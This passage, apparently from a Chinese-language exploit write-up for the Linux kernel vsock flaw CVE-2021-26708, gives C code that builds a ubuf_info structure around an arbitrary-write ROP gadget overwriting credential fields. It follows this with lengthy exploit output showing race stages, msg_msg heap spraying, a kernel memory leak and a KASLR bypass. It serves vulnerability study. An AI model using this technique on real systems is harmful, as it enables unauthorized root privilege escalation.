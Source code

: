 **`ubuf_info`结构构造**如下：由于作者在`vmlinuz-5.10.11-200.fc33.x86_64`中没有找到合适的`pivot_gadget`，所以就发明了一种奇怪的任意写原语，并且能够"one shot" ！

```c
 /*
     * A single ROP gadget for arbitrary write:
     *   mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
     * Here rdi stores uinfo_p address, rcx is 0, rsi is 1
     */
    uinfo_p->callback = ARBITRARY_WRITE_GADGET + kaslr_offset;
    uinfo_p->desc = owner_cred + CRED_EUID_EGID_OFFSET; /* value for "qword ptr [rdi + 8]" */
    uinfo_p->desc = uinfo_p->desc - 1; /* rsi value 1 should not get into euid */
```

**任意写**：`callback`函数指针指向一个ROP gadget，`RDI`保存了`callback`的第一个参数（也就是`ubuf_info`结构的地址），所以`RDI+8`指向`ubuf_info.desc`，这个gadget能将`ubuf_info.desc`赋值给`RDX`。现在`RDX`存着有效的`user ID`和`group ID`的地址-1，这个`-1`很重要，当gadget将`RSI`中的`qword 1`写入`RDX`指向的内存时，`uid`和`gid`就会被覆盖为0。然后对`uid`和`gid`重复该步骤，就能成功提权。

以下是**exp的输出**，能够展现整个利用的流程：

```c
[a13x@localhost ~]$ ./vsock_pwn

=================================================
==== CVE-2021-26708 PoC exploit by a13xp0p0v ====
=================================================

[+] begin as: uid=1000, euid=1000
[+] we have 2 CPUs for racing
[+] getting ready...
[+] remove old files for ftok()
[+] spray_data at 0x7f0d9111d000
[+] userfaultfd #1 is configured: start 0x7f0d91121000, len 0x1000
[+] fault_handler for uffd 38 is ready

[+] stage I: collect good msg_msg locations
[+] go racing, show wins: 
	save msg_msg ffff9125c25a4d00 in msq 11 in slot 0
	save msg_msg ffff9125c25a4640 in msq 12 in slot 1
	save msg_msg ffff9125c25a4780 in msq 22 in slot 2
	save msg_msg ffff9125c3668a40 in msq 78 in slot 3

[+] stage II: arbitrary free msg_msg using corrupted msg_msg
	kaddr for arb free: ffff9125c25a4d00
	kaddr for arb read: ffff9125c2035300
[+] adapt the msg_msg spraying payload:
	msg_ptr 0x7f0d91120fd8
	m_type 1337 at 0x7f0d91120fe8
	m_ts 6096 at 0x7f0d91120ff0
	msgseg next 0xffff9125c2035300 at 0x7f0d91120ff8
[+] go racing, show wins: 

[+] stage III: arbitrary read vsock via good overwritten msg_msg (msq 11)
[+] msgrcv returned 6096 bytes
[+] Found sk_memcg ffff9125c42f9000 (offset 4712 in the leaked kmem)
[+] Found owner cred ffff9125c3fd6e40 (offset 4888 in the leaked kmem)
[+] Found sock_def_write_space ffffffffab9851b0 (offset 4736 in the leaked kmem)
[+] Calculated kaslr offset: 2a000000

[+] stage IV: search sprayed skb near sk_memcg...
[+] checking possible skb location: ffff9125c42fa000
[+] stage IV part I: repeat arbitrary free msg_msg using corrupted msg_msg
	kaddr for arb free: ffff9125c25a4640
	kaddr for arb read: ffff9125c42fa030
[+] adapt the msg_msg spraying payload:
	msg_ptr 0x7f0d91120fd8
```